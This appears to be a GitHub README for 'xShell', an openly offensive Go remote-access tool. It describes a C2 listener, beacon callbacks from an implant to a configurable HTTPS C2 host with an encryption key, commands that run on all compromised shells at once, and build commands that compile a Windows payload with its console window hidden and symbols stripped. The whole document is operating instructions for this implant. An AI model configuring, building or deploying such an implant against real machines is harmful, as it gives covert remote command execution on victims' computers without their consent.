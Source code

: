<div align="center">
  <h1>xShell</h1>
  <br/>
  <p><i>A simple concurrent http shell</i></p>
  <br/>
</div>

# About
- Commands are executed by workers
- Workers are goroutines that simply execute the commands
- All workers are indexed in a worker map
- Workers are dynamically allocated based on workload
- Beacon workers are responsible for callbacks
# Usage
### Change listener port:
In c2/c2.go:
```go
var Port string = "" // change port here
var Key string = "" // set encryption key here (must match key in payload)
```

### Start listener:
```sh
go run c2/c2.go
```
If listening on a protected port (any port under 1024) use sudo:
```sh
sudo go run c2/c2.go
```

### Listener commands:
```
shells - list all active shells
shell <shell_name> - interact with specifc shell
mexec <command> - executes command on all shells
clear - clears console
quit - shuts down C2
exit - return to main menu (shell continues to run)
```

### Set call back host:
In payload/xShell.go:
```go
var KeyStr string = "" // must be 16, 24, 32 bytes
var C2Host string = "" // set C2 host ip or hostname (must start with https://)
```

### Build shell:
```sh
GOOS=windows GOARCH=amd64 go build -ldflags "-H 'windowsgui' -w -s" -o xShell.exe payload/xShell.go # for Windows 64bit amd64
GOOS=darwin GOARCH=amd64 go build -ldflags "-w -s" -o xShellosx payload/xShell.go # for macOS 64bit amd64
```

# License
[Attribution-NonCommercial-NoDerivatives 4.0 International (CC BY-NC-ND 4.0)](https://creativecommons.org/licenses/by-nc-nd/4.0/)
